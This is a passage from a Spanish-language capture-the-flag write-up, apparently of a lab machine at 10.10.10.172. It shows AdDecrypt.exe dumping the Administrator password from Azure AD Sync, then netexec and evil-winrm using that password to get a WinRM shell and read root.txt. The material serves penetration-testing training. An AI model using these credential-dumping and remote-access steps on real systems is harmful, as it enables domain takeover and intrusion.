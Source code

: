 Nos dirigiremos al directorio mencionado y procederemos a ejecutar el "AdDecrypt.exe" que lo disponemos en C:\Windows\Temp y de argumento le pasaremos -FullSQL

Comprobamos que nos muestra la contraseña del usuario "Administrator".

```bash
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"

C:\Windows\Temp\AdDecrypt.exe -FullSQL
```

<figure><img src="../../../.gitbook/assets/978_vmware_u4vyjkQRDB.png" alt="" width="563"><figcaption></figcaption></figure>

Probaremos con **netexec** de validar que el usuario Administrator y las credenciales encontradas se pueden conectar al WinRM. Comprobamos que nos aparece como _Pwn3d_.

```bash
netexec winrm 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!' 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/979_vmware_PXpZkUVsbM.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos con **evil-winrm** al equipo mencionado con las credenciales del usuario Administrator y comprobaremos que ganamos acceso y localizamos la flag de **root.txt**.

```bash
evil-winrm -i 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!' 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/980_vmware_NWkYGNz3Lc.png" alt=""><figcaption></figcaption></figure>
